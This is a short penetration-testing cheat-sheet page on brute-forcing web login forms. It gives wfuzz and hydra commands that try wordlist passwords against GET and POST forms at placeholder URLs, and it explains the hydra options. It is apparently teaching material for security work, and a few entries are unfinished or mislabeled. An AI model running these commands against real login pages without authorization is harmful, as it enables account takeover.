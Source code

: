 # Bruteforce forms

<div class="row row-cols-md-2"><div>

...
</div><div>

Wordlists

* package wordlist: ???
* package seclists: ???
</div></div>

<hr class="sl">

## Bruteforce using ffuf

[See fuzzing/wfuzz for more information](_tools/fuzz/index.md#wfuzz)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
# todo: check
$ wfuzz -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
$ wfuzz -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php -H "Content-Type: application/x-www-form-urlencoded"
```
</div></div>

<hr class="sr">

## Bruteforce using wfuzz

[See fuzzing/wfuzz for more information](_tools/fuzz/index.md#wfuzz)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sl">

## Bruteforce authentication forms using Hydra

<div class="row row-cols-md-2"><div>

Hydra is mostly used to bruteforce services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will bruteforce is something like this</p>

```none
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, on by one
* Consider comme failures (`-F`) any web page that returns the word "incorrect"

You should check the [bruteforce services](../../random/crack_password/services.md) page to learn more about Hydra.
</div></div>